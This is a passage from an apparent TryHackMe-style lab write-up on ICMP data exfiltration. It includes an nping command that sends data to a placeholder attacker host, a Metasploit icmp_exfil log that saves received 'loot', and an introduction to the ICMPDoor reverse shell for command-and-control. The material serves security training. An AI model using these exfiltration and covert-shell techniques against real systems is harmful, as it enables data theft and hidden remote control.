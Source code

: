 ```bash
RCVD (0.0358s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=63 id=18581 iplen=44 ]
RCVD (0.0748s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=31 id=2149 iplen=30 ]
    
Max rtt: 39.312ms | Min rtt: 0.371ms | Avg rtt: 19.841ms
Raw packets sent: 1 (44B) | Rcvd: 2 (74B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0364s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=33619 seq=1] IP [ttl=64 id=51488 iplen=31 ]
RCVD (0.0369s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=63 id=19671 iplen=31 ]
RCVD (0.3760s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=31 id=1003 iplen=36 ]
    
Max rtt: 339.555ms | Min rtt: 0.391ms | Avg rtt: 169.973ms
Raw packets sent: 1 (31B) | Rcvd: 2 (67B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds
thm@icmp-host:~#
```
Let's check our AttackBox once we have done sending the data and the ending trigger value.

```bash
🔴🟢🟡                        #Receiving Data in MSF
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
[+] Beginning capture of "file.txt" data
[*] 30 bytes of data received in total
[+] End of File received. Saving "file.txt" to loot
[+] Incoming file "file.txt" saved to loot
[+] Loot filename: /root/.msf4/loot/20220425212408_default_ATTACKBOX_IP_icmp_exfil_838825.txt
```

:tada: Nice! :tada: We have successfully transferred data over the ICMP protocol using the Metasploit Framework. You can check the 💰 loot file mentioned in the terminal to confirm the received data.

## ICMP C2 Communication

Next, we will show executing commands over the $${\color{red}ICMP}$$ protocol using the [ICMPDoor](https://github.com/krabelize/icmpdoor) or at https://github.com/krabelize/icmpdoor tool. $${\color{red}ICMPDoor}$$ is an open-source reverse-shell written in **`Python3`** and **`scapy`**. The tool uses the same concept we discussed earlier in this task, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.
